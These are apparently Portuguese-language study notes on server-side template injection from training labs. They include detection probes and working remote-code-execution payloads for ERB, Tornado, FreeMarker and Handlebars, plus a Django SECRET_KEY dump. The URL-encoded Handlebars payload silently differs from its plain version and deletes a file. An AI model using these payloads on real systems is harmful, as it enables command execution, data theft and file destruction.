 # SSTI - Server Side Template Injection

Probabilidade: $${\color{orange}média/alta}$$.

Payloads genéricos:
```
${{<%[%'"}}%\

fuzzer${{<%[%'"}}%\<>
```

Payloads para identificar a engine:
```
{{7*7}}, ${7*7},<% = 7*7 %>, ${{7*7}}, #{7*7}, *{7*7}
```

Normalmente aparece na opção "View details", mas teste em qualquer lugar que reflita o valor na resposta.

![image](https://github.com/user-attachments/assets/c74addd5-8b61-4973-ae92-a8d9ac80f056)

<br>

## Laboratórios

**Basic Server-Side Template Injection**

Encontre o template com:
```
<%= 7 * 7 %>
```

Identifique é Ruby, então utilize:
```
<%= system("cat /home/carlos/secret") %>
```

<br>
<br>

**Basic Server-Side Template Injection (code context)**

Observe a requisição nas configurações de Preferred name.
```
blog-post-author-display=user.name
```

Tente o payload abaixo e verá o template ser renderizado nos comentários do blog.
```
blog-post-author-display=user.name}}{{7*7}}
```

Para conseguir RCE com o template Tornado:
```
{% import os %}{{os.system('whoami')}}
```

Versão adaptada:
```
blog-post-author-display=user.name}}{%25+import+os+%25}{{os.system('cat+/home/carlos/secret')}}
```

<br>
<br>

**Server-Side Template Injection Using Documentation**

Isso funciona:
```
${7*7}
#{7*7}
```

Para triggar um erro:
```
${7/0}
```

Desse jeito descobrimos o template FreeMarker, para conseguir RCE:
```
<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("cat /home/carlos/secret")}
```

<br>
<br>

**Server-Side Template Injection in an Unknown Language with a Documented Exploit**

Para triggar um erro:
```
{{7*7}}
```

Descobrimos que o template é Handlebars NodeJS:
```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('cat /home/carlos/secret');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

Encode em URL:
```
%7b%7b%23%77%69%74%68%20%22%73%22%20%61%73%20%7c%73%74%72%69%6e%67%7c%7d%7d%0d%0a%20%20%7b%7b%23%77%69%74%68%20%22%65%22%7d%7d%0d%0a%20%20%20%20%7b%7b%23%77%69%74%68%20%73%70%6c%69%74%20%61%73%20%7c%63%6f%6e%73%6c%69%73%74%7c%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%28%6c%6f%6f%6b%75%70%20%73%74%72%69%6e%67%2e%73%75%62%20%22%63%6f%6e%73%74%72%75%63%74%6f%72%22%29%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%73%74%72%69%6e%67%2e%73%70%6c%69%74%20%61%73%20%7c%63%6f%64%65%6c%69%73%74%7c%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%22%72%65%74%75%72%6e%20%72%65%71%75%69%72%65%28%27%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%27%29%2e%65%78%65%63%28%27%72%6d%20%2f%68%6f%6d%65%2f%63%61%72%6c%6f%73%2f%6d%6f%72%61%6c%65%2e%74%78%74%27%29%3b%22%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%23%65%61%63%68%20%63%6f%6e%73%6c%69%73%74%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%28%73%74%72%69%6e%67%2e%73%75%62%2e%61%70%70%6c%79%20%30%20%63%6f%64%65%6c%69%73%74%29%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%2f%65%61%63%68%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%7b%7b%2f%77%69%74%68%7d%7d
```

<br>
<br>

Server-Side Template Injection with Information Disclosure via User-Supplied Objects

Para triggar um error:
```
{{7*7}} ou ${{<%[%'"}}%\,
```

Descobrimos o framerwork Django e confirmamos com:
```
{% debug %}
```

Para dumpar a chave:
```
{{settings.SECRET_KEY}}
```
